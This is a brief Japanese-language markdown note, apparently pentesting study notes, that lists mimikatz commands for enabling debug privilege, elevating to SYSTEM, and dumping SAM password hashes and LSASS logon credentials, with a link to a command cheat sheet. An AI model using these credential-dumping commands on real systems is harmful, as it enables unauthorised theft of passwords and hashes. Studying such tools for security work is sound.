

# mimikatz

### LSASS（Local Security Authority Subsystem）のプロセスメモリにキャッシュされているパスワードハッシュの抽出

```cmd
mimikatz.exe
# seDebugPrivilegeを有効にする
privilege::debug
# 整合性レベルをhigh→systemに
token::elevate
lsadump::sam
```



※lsadump::samを使ってSAMデータベースの内容をダンプしている

※LSASSはSYSTEMプロセスであり、管理者権限で動作するmimikatzよりもさらに高い権限を持っている


```
sekurlsa::logonpasswords
```


* コマンドのチートシート

  https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/logonpasswords

  
